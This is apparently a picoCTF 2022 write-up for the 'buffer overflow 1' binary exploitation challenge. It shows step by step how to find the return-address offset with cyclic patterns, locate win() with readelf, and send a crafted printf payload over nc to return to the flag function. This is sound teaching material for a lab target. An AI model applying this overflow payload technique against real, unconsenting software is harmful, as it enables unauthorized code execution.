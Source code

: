 # buffer overflow 1
## Description
- **Tags**:
    - picoCTF 2022
    - Binary Exploitation

- **Author**:
    - Sanjay C
    - Palash Oswal

Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/251/vuln).
You can view source [here](https://artifacts.picoctf.net/c/251/vuln.c). And connect with it using

```
nc saturn.picoctf.net 53929
```

## Exploration

Taking a look a the source code, we see that we have a classic and `win()` that outputs the flag and `vuln()` that uses `gets()` which is suceptible to a buffer overflow. Interestingly `vuln()` also gives us a helpful clue for where to insert EIP for our payload, though unfortunately that's not included in our download so we'd need to remove that for a local version:

```c
...
#include "asm.h"
...
printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
```

With this output, however, we can use a cylcic pattern to identify EIP:
```
$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

$ nc saturn.picoctf.net 53929 <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

$ cyclic -l 0x6161616c
44
```

To find EIP:
```
$ readelf -s vuln | grep win
    63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
```

Craft and run a payload:
```bash
$ cyclic 44 # Really could generate any string of 44 characters
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa

# Make sure to have newline \x0A at the end to end input
$ printf 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa\xf6\x91\x04\x08\x0A' > payload

$ nc saturn.picoctf.net 53929 < payload
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{REDACTED}
```

### Bonus Points
Made a script that works both local and remote

```
$ ./exploit_vuln.py saturn.picoctf.net 53929
picoCTF{REDACTED}
```